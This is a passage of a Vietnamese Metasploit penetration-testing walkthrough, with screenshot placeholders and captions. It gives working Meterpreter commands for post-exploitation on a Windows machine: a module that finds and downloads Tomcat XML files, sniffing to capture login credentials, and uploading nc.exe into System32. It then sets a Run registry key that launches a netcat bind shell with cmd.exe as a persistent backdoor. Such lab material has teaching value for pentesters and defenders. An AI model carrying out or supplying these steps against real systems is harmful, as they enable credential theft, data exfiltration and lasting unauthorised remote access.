 ![](../media/MSF%20PENTEST%20REPORT_78.png)

Search Critical Analyze – info SRV – download phân tích

run  post/windows/gather/enum_files FILE_GLOBS=*tomcat*.xml SEARCH_FROM=C:\\

module này sẽ kiếm các file liên quan tới tomcat xml từ ổ C và tự động download về máy

![](../media/MSF%20PENTEST%20REPORT_79.png)

Áp dụng WIRESHARK cùng MSF tấn công theo thời gian thực

Migrate leo thang rồi load module sniffer

![](../media/MSF%20PENTEST%20REPORT_80.png)

Xem interface, capture

![](../media/MSF%20PENTEST%20REPORT_81.png)

Nhập thông tin đăng nhập ở máy mục tiêu

![](../media/MSF%20PENTEST%20REPORT_82.png)

Tắt sniff và lưu file

![](../media/MSF%20PENTEST%20REPORT_83.png)

Bật wireshark thì capture được thông tin đăng nhập

![](../media/MSF%20PENTEST%20REPORT_84.png)

Dùng Port Forwarding khai thác thông tin System

![](../media/MSF%20PENTEST%20REPORT_85.png)![](../media/MSF%20PENTEST%20REPORT_86.png)

TẤN CÔNG Registry để giữ kết nối vĩnh viễn sau khi thâm nhập system

![](../media/MSF%20PENTEST%20REPORT_87.png)

Up backdoor vào máy bị tấn công

upload /home/kali/Desktop/nc.exe C:\\Windows\\System32

![](../media/MSF%20PENTEST%20REPORT_88.png)

reg enumkey -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\

reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\ -v backdoor -d 'C:\\Windows\System32\nc.exe -Ldp 4449 -e cmd.exe'

reg queryval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\ -v backdoor

![](../media/MSF%20PENTEST%20REPORT_89.png)

Cách này không hoạt động khi hệ thống đã vá lỗi
